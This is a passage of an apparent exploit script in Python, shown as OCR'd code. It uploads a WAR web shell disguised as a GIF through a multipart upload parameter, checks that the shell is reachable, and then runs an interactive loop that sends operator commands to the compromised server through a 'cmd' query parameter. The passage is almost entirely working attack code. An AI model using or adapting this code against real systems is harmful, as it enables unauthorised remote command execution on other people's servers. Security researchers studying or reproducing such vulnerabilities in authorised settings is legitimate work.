 ```

    files = {
        HTTP_UPLOAD_PARAM_NAME.capitalize(): ("arbitrary.gif", war_file_content, "image/gif"),
        HTTP_UPLOAD_PARAM_NAME + "FileName": war_location
    }

    boundary = '----WebKitFormBoundary' + ''.join(random.sample(string.ascii_letters + string.digits, 16))
    m = MultipartEncoder(fields=files, boundary=boundary)
    headers = {"Content-Type": m.content_type}

    try:
        response = requests.post(url, headers=headers, data=m)
        if response.status_code == 200:
            print(f"[+] {NAME_OF_WEBSHELL_WAR} uploaded successfully.")
        else:
            raise requests.RequestException('Wrong status code: ' + str(response.status_code))
    except requests.RequestException as e:
        print("[-] Error while uploading the WAR webshell:", e)
        sys.exit(1)


def attempt_connection(url):
    for attempt in range(1, MAX_ATTEMPTS + 1):
        try:
            r = requests.get(url)
            if r.status_code == 200:
                print('[+] Successfully connected to the web shell.')
                return True
            else:
                raise Exception
        except ConnectionError:
            if attempt == MAX_ATTEMPTS:
                print(f'[-] Maximum attempts reached. Unable to establish a connection with the web shell. Exiting...')
                return False
            time.sleep(DELAY_SECONDS)
        except Exception:
            if attempt == MAX_ATTEMPTS:
                print('[-] Maximum attempts reached. Exiting...')
                return False
            time.sleep(DELAY_SECONDS)
    return False


def start_interactive_shell(url):
    if not attempt_connection(url):
        sys.exit()

    while True:
        try:
            cmd = input("\033[91mCMD\033[0m > ")
            if cmd == 'exit':
                raise KeyboardInterrupt
            r = requests.get(url + "?cmd=" + cmd, verify=False)
            if r.status_code == 200:
                print(r.text.replace('\n\n', ''))
            else:
                raise Exception
        except KeyboardInterrupt:
            sys.exit()
        except ConnectionError:
            print('[-] We lost our connection to the web shell. Exiting...')
```